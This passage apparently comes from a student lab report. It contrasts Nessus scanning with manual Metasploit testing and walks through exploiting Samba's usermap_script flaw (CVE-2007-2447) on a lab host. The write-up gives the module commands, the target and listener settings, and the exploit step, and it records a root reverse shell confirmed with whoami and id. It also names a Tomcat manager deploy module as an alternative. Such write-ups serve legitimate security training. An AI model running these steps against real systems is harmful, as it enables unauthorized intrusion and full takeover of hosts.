    AJP Connector Request Injection (Ghostcat)* (CVSS 9.8), *Samba
    Badlock Vulnerability* (CVSS 7.5), and *Unencrypted Telnet Server*
    (CVSS 6.5), along with an OpenSSH detection info flag.

- **Active Exploitation vs. Passive/Active Scanning:** Manual testing
  went beyond scanning and included exploitation and post-exploitation
  activities, where interactive root/shell sessions were obtained using
  Metasploit. In comparison, Nessus only scanned the target and reported
  vulnerabilities, risk levels, CVSS scores, and other security details
  without running exploit payloads.

**3. Why Do They Differ? (Reasons)**

- **Tool Functionality & Signatures:** Nmap and Metasploit use service
  version information and specific exploit modules to find security
  weaknesses. Nessus uses a large database of vulnerability checks to
  identify different security issues.

- **Scope and Depth:** Nessus checks a wider range of possible security
  issues, including Info and Low-level findings. Manual testing focuses
  more on specific tasks and objectives defined in the engagement rules.

------------------------------------------------------------------------

**TASK: C (Exploitation write-up)**

Document the Metasploit exploitation step by step, with screenshots and
an explanation of each command.

**Overview**

This section documents the step-by-step technical execution of
exploiting identified vulnerable services on the target machine
(192.168.100.3) using the Metasploit Framework.

**Step 1: Launching the Metasploit Framework**

- **Command:**

  \> msfconsole -q

- **Technical Explanation:**

Executes the Metasploit Framework console in quiet mode (-q). This hides
the default startup banner, providing a clean and efficient workspace
for command execution.

**Step 2: Selecting and Loading the Exploit Module**

- **Command:**

\> use exploit/multi/samba/usermap_script

*(Note: If documenting Apache Tomcat instead, use: use
exploit/multi/http/tomcat_mgr_deploy)*

- **Technical Explanation:**

Loads the targeted exploit module targeting the username map script
vulnerability in Samba (CVE-2007-2447). This module exploits an
arbitrary command execution flaw within MS-RPC integration.

**Step 3: Configuring Target and Handler Parameters**

- **Commands:**

\> set RHOSTS 192.168.100.3

\> set LHOST 192.168.100.4

- **Technical Explanation:**

  - set RHOSTS 192.168.100.3: Defines the target host IP address to be
    exploited.

  - set LHOST 192.168.100.4: Specifies the attacker machine's local IP
    address (Kali Linux) to listen for the incoming reverse TCP payload
    connection.

**Step 4: Executing the Exploit Payload**

- **Command:**

\> exploit

- **Technical Explanation:**

Starts the exploit process. Metasploit creates and sends the payload to
the target service (192.168.100.3:139). Upon successful execution on the
target end, a reverse shell connection is established back to the
handler.

**Step 5: Post-Exploitation Verification & Access Confirmation**

- **Commands:**

\> whoami

\> id

\> pwd

- **Technical Explanation:**

Once the command shell session activates, standard system verification
commands are executed to confirm privilege levels:

- whoami: Confirms active identity (root).

- id: Displays user and group identifiers (uid=0(root) gid=0(root)),
  confirming full administrative takeover of the target host.

- pwd: Verifies current working directory path (/).

------------------------------------------------------------------------
